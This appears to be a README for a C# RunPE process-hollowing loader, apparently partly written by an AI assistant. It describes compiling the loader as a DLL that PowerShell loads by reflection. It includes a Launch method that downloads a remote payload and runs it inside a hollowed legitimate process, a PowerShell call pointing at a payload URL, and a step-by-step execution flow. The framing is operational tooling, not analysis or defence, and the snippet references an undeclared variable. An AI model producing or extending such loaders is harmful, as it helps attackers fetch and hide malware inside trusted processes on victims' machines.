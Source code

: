 ## Introduction
Process hollowing is yet another tool in the kit of those who seek to hide the presence of a process. The idea is rather straight forward: a bootstrap application creates a seemingly innocent process in a suspended state. The legitimate image is then unmapped and replaced with the image that is to be hidden. If the preferred image base of the new image does not match that of the old image, the new image must be rebased. Once the new image is loaded in memory the EAX register of the suspended thread is set to the entry point. The process is then resumed and the entry point of the new image is executed.

## Overview
The Loader.cs is a C# implementation of a RunPE process hollowing technique. This technique is used to inject and execute a PE (Portable Executable) payload into a legitimate process's memory space, effectively hiding its presence.
The script.ps1 likely acts as the initiating script, which either:
Downloads the compiled Loader binary.
Executes the Loader with the required parameters (e.g., URLs or paths to payloads).

## Technical Details of Loader.cs as a DLL

Compilation to DLL:

The Loader.cs code will be compiled into a .NET DLL (Dynamic Link Library).
This allows external applications, including PowerShell, to interact with its public methods using reflection or direct invocation via the .NET framework.

Exposed Methods:

Loader.cs must expose its methods, such as Launch or RunPe, as public static so they can be called from PowerShell.
For example:

```csharp

public static void Launch(string appurl, string path)
        {
            if (!File.Exists(path))
            {
                return;
            }

            using (WebClient webClient = new WebClient())
            {
                byte[] Bytes = webClient.DownloadData(appurl);
                RunPe(Bytes, diretorio, "");
            }

        }
```
    

## Interaction via PowerShell:

The PowerShell script will use the [Reflection.Assembly]::LoadFrom() or Add-Type methods to load the DLL and call its methods.

PowerShell Script (script.ps1) Integration

Here’s an example of how the PowerShell script might load and interact with the DLL:

Loading the DLL:

    $dllPath = "path\to\Loader.dll"
    $assembly = [Reflection.Assembly]::LoadFrom($dllPath)

Invoking the Launch Method:

Use the fully qualified namespace and class name (Loader.c_Loader) to call methods:

    $appUrl = "http://example.com/payload.exe"
    $path = "C:\target\process.exe"

    # Call the static method
    [Loader.c_Loader]::Launch($appUrl, $path)

Passing Parameters:

Ensure parameters like appurl (URL to the payload) and path (target process) are correctly passed when invoking methods.


## Advantages of Using a DLL

    Modular Design: The PowerShell script focuses on orchestration, while the DLL encapsulates the complex logic.
    Reusability: The DLL can be reused across multiple scripts or applications.
    Dynamic Loading: PowerShell can load and use the DLL at runtime, making it flexible and adaptable to different scenarios.


## Example Flow

    1 Setup:
        Place the Loader.dll and the PowerShell script in the same directory or specify the path to the DLL in the script.
        
    2 Execute the Script:
        The PowerShell script loads the DLL, invokes the necessary methods, and triggers the execution of the payload.
        
    3 Payload Execution:
        The DLL performs process hollowing or other techniques as defined in Loader.cs.

Let me know if you'd like a sample PowerShell script template for this integration!

